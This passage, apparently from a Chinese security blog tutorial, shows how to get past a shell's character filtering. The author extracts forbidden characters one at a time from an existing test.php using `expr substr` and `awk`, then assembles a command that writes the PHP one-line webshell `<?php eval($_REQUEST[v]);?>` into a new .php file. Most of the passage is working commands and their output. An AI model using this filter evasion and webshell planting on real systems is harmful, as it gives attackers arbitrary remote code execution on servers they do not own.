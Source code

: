接下来就是体力活了,要把一句话木马中所有被过滤的字符都依次借过来. 要注意的是,读取字符的间隔貌似不能包含空格,否则 expr 会判断列数错误.

```
root@Google:/var/www# echo `expr substr $(awk NR==20 test.php) 5 1`

"

root@Google:/var/www# echo `expr substr $(awk NR==20 test.php) 1 1`

$

root@Google:/var/www# echo `expr substr $(awk NR==1 test.php) 1 1`

<

root@Google:/var/www# echo `expr substr $(awk NR==1 test.php) 6 1`
>
root@Google:/var/www# expr substr $(awk NR==11 test.php) 35 1

)

root@Google:/var/www# expr substr $(awk NR==11 test.php) 33 1

(

root@Google:/var/www# expr substr $(awk NR==20 test.php) 7 1

;

root@Google:/var/www# expr substr $(awk NR==17 test.php) 2 1

? 
```

最后总算凑够数了,完整的语句是:

```
echo `expr substr $(awk NR==1 test.php) 1 1`?php eval`expr substr $(awk NR==11 test.php) 33 1``expr substr $(awk NR==20 test.php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test.php) 35 1``expr substr $(awk NR==20 test.php) 7 1``expr substr $(awk NR==17 test.php) 2 1``expr substr $(awk NR==1 test.php) 6 1` >2`expr substr $(awk NR==30 test.php) 13 1`php 
```

在 shell 下成功执行

![2014030416261134841_png.jpg](img/img9_u18_jpg.jpg)
